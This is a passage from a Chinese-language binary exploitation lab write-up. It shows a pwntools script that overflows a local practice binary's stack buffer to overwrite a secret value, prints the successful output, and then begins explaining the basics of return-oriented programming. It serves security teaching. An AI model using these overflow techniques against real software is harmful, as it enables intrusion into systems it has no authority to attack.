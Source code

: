 ```python
import pwn
import struct

proc = pwn.process('./question64')
b = struct.pack('@q', 0x1234)
print(b)
proc.sendline(b'\x41'*100 + b'\x00' * 8 + b)
print(proc.recv().decode())

```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-1 » python exploit64.py 
[+] Starting local process './question64': pid 10128
b'4\x12\x00\x00\x00\x00\x00\x00'
[*] Process './question64' stopped with exit code 0 (pid 10128)
buffer: 0x7ffc03d29950, secret: 0x7ffc03d299bc
cool!
```

## ROP 基础

有趣的部分真正开始。ROP 全称是 *Return Oriented Programming*，一种通过返回指令串联代码片段，以执行复杂逻辑的技术思想。参考文章：[ctf wiki - 基本ROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#rop)。

### 原理

从简单的开始说起。`call`指令的本质是压栈IP寄存器接一个无条件跳转指令。而`ret`指令本质是从栈上弹出一个地址，然后无条件跳转。

那么能用`ret`替代`call`指令吗？把`ret`当成`jmp`来用，当然没什么不能的（考虑 x86/cdecl 调用约定）。

![image-20220816110634684](image-20220816110634684.png)
